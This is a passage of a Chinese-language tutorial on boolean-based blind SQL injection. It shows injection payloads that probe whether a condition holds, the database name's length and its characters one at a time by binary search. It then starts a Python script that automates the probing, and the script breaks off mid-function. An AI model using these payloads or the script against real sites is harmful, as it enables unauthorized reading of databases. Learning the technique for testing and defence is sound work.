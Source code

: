 ```mysql
1' and 1=1--+
```

成立则会有回显。

![image-20200823211510849](SQL注入.assets/image-20200823211510849.png)

```mysql
1' and length(databse())>5--+
```

不断比较可以得出数据库的长度为8。

![image-20200823211925450](SQL注入.assets/image-20200823211925450.png)

```mysql
1' and substr(database(),1,1)>'m'--+
```

其中substr(字符串，整数1，整数2)  可以获得字符串的第整数1个字符开始的长度为整数2的一串字符

例子：

```mysql
substr(string,1,3)
str
```

上述采用的是二分法，不断取中来比较字符，最后获得一整串值，手写较累，建议用脚本。

参考链接：https://www.cnblogs.com/Spec/p/10648793.html

```mysql
import requests
import os
 
#此函数先判断数据库长度
def length(url,str):
    num = 1
    while True:
        str_num = '%d' %num
        len_url = url + "' and (select length(database()) = " + str_num +")--+"
        response = requests.get(len_url)
        if str in response.text:
            print("%s" %str_num)
            content(url,str,num)
            break
        else:
```